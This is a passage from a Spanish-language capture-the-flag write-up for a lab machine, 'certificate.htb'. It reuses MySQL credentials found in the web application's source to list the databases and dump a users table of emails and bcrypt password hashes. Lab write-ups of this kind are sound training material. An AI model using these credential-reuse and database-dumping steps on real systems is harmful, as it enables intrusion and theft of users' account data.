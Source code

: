 Vemos que las credenciales de `mysql` son los siguientes:

```
User: certificate_webapp_user
Pass: cert!f!c@teDBPWD
```

Vamos a conectarnos a dicha `DDBB` con el binario de `mysql` de esta forma:

```powershell
cd C:\xampp\mysql\bin
.\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "show databases;"
```

Info:

```
Database
certificate_webapp_db
information_schema
test
```

Veremos varias `DDBBs` interesantes, pero entre ellas una que llama la atencion `certificate_webapp_db`, vamos a ver que contiene.

```powershell
.\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use certificate_webapp_db; show tables;"
```

Info:

```
Tables_in_certificate_webapp_db
course_sessions
courses
users
users_courses
```

Ahora vamos a ver que contiene la tabla `users`:

```shell
.\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use certificate_webapp_db; select * from users;"
```

Info:

```
id      first_name      last_name       username        email   password        created_at      role    is_active
1       Lorra   Armessa Lorra.AAA       lorra.aaa@certificate.htb       $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG    2024-12-23 12:43:10 teacher  1
6       Sara    Laracrof        Sara1200        sara1200@gmail.com      $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK    2024-12-23 12:47:11 teacher  1
7       John    Wood    Johney  johny009@mail.com       $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq    2024-12-23 13:18:18     student 1
8       Havok   Watterson       havokww havokww@hotmail.com     $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti    2024-12-24 09:08:04     teacher      1
9       Steven  Roman   stev    steven@yahoo.com        $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2    2024-12-24 12:05:05     student 1
10      Sara    Brawn   sara.b  sara.b@certificate.htb  $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6    2024-12-25 21:31:26     admin   1
12      1       2       12      1@2.com $2y$04$enbpf8ICNN968HLfbvrHGu/71q5fMuX2kXqWQCqmLux.qLHS0JsEq    2025-10-17 09:01:34     student 1
13      123     321     123     123@123.com     $2y$04$qKNPREpDOCAf2sDTVQ.g7OHqA0ebNCjaQtNA5LvORZiuIFlf/k3Gq    2025-10-17 09:02:00     student 1
14      test1   1test   test12  test1@lol.com   $2y$04$CNzavjGZrEBBhV0u78ihFOFYF29E0.9CGJ31paHlof5.AfEz.KhnW    2025-10-17 09:02:59     student 1
```